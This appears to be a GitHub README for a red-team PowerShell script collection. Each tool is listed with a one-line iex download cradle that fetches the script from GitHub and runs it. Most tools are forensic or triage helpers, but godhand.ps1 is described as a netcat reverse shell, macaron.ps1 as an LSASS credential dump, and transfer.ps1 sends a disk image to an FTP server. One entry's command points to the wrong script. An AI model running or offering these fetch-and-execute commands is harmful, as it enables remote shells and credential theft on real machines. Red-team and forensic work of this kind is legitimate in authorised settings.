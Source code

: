# Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
Downloads necessary installation packages for CyberPipe and runs it, creates .vhdx file of the target.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
Automatically finds .vhdx file in the determined destination path and sends it to FTP server.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## cekmece.ps1
Triage tools with little automation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/cekmece.ps1') 
```

## inspedefe.ps1
String search tool inspired by Didier Stevens's PDFiD
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/inspedefe.ps1') 
```

## korktunmu.ps1
Python and PIP Installation using Chocolatey
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## olegunnar.ps1
Glue to use ole-tools
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## godhand.ps1
Simple reverse shell with netcat without no obfuscation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```

## macaron.ps1
Loudest LSASS dump ever
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```